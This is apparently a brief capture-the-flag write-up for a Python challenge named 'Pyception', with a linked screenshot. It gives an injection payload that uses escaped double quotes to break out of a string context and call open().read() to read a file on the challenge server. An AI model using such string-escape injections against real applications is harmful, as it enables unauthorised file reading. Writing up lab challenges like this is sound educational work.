 ## Pyception:

Basic programming concepts needed to solve this.

![image](https://github.com/Darry1968/CTF-Challenges/assets/104063375/65dc19e6-0fc1-43ac-9af2-21c9ec65fff0)

We have to provide some string in double quotes only so to solve this challenge use this Payload:
```
"\x22+open().read()+\x22"
```
